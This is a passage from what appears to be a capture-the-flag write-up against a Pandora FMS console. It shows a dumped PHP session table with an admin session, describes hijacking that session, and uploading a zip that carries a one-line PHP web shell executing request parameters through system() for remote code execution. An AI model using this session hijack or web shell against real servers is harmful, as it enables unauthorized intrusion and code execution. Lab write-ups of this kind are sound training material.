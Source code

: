 ```
| 0ahul7feb1l9db7ffp8d25sjba | NULL                                                                                                   | 1638789018  |
| 1um23if7s531kqf5da14kf5lvm | NULL                                                                                                   | 1638792211  |
| 2e25c62vc3odbppmg6pjbf9bum | NULL                                                                                                   | 1638786129  |
| 2e6n5vl4464up7shn0gav0n9to | id_usuario|s:5:"admin";                                                                                | 1649322525  |
| 2evom9sveami3a6cdb62nv1pnt | id_usuario|s:6:"daniel";                                                                               | 1649308597  |
| 346uqacafar8pipuppubqet7ut | id_usuario|s:6:"daniel";                                                                               | 1638540332  |
```
Let's set this session in browser and explore the `pandra_console` again. Here we have valid admin session:
![pandora-admin](./images/pandora-admin.png)

OK now we have admin panel in `pandora_console` According to this [video](https://www.youtube.com/watch?v=61KE45V7VT8) we can upload malicious zip file containing a php file.\ After uploading it the zip would be extracted and the php file can be accessed and execute arbitrary code which can lead to RCE.

```php
<?php
system($_REQUEST['k']);
?>
```
